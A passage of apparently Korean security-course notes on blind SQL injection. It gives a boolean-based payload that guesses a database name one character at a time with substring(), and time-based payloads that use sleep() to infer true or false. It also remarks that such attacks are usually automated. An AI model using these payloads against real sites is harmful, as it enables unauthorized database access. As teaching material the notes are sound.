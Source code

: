 ![image-20200903162016958](secure_day4.assets/image-20200903162016958.png)

```
' or 1=1 and substring(database(),2,1)='w'#
```

얘도 참 나온다.

이렇게 일일이 한 글자씩 찾는 건 힘들어서 보통 오토툴을 만들어 공격한다.

### blind - time based

sleep을 걸어 실행되면 참 안 되면 거짓을 판별하는 방법

```
' or 1=1 and sleep(5)#
' or 1=1 and length(database())=5 and sleep(1)#
```